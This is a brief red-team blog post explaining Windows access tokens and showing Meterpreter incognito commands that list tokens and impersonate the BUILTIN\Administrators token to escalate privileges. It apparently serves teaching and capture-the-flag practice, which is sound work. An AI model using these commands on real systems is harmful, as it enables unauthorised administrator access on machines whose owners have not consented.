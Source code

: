 ```yaml
---
layout: post
title:  "Token Imporsanate With Meterpreter Shell"
date:   2020-04-09 02:24:32 +0530
categories: redteam ctf
---
```


Token imporsanation is a windows privilage escalation technique. This blog discusses about how windows tokens work and how tokens can be used to escalate 
privilages into administrator account.

## What is a Token

When a user login to the windows system through physically or through a remote desktop, the os create a token and keep it in memory until the user disconnect or log off or 
computer reboot. Tokens are like cookies for windows. It holds the information about use authorization.

There are two types of Tokens exists,
<ol>
<li>Delegate - Created in an interactive login such as conventionally logging into the console, logging in remotely using Terminal Services
or using other remote access solutions such as Citrix.</li> 
<li>Imporsonate - Created in non-interactive login such as ftp server login, apache server login.</li>
</ol>

If the SeImpoersonate privilage is enable we can imporsanate any user through his token,

## Attack Using Meterpreter Shell

First we need to load incognito module,
```
load incognito
```
List All the tokens 
```
list_tokens -g
```
![List the tokens](https://github.com/janithmalinga/janithmalinga.github.io/blob/master/_images/_imporsanate/list_token.png)
Then we can imporsanate the administrator using administrator token
```
impersonate_token "BUILTIN\Administrators"
```
![Imporsanate the administrator token](https://github.com/janithmalinga/janithmalinga.github.io/blob/master/_images/_imporsanate/imposanate_admin.png?raw=true)
